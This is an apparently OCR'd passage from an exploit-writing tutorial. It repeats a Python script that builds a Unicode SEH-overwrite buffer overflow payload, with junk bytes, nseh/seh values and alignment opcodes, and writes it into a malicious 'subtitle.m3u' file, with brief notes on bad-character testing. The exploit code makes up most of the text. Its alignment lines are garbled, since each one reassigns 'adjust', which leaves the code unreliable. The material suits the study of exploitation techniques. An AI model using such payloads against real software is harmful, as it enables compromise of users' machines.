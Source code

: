 
exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

This appears to work. All of the bytes appear in memory correctly and none of them seem to have been changed at all (note that the \x00 's that you see before and after each byte in this string are normal as the program will translate these bytes into Unicode)

Lets try with the other string again:

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x09\x0a\x0b\x0c\x0d\x0e"

exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

Woops. Still a problem. Split it up again.

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x09\x0a\x0b"
#\x0c\x0d\x0e
exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()
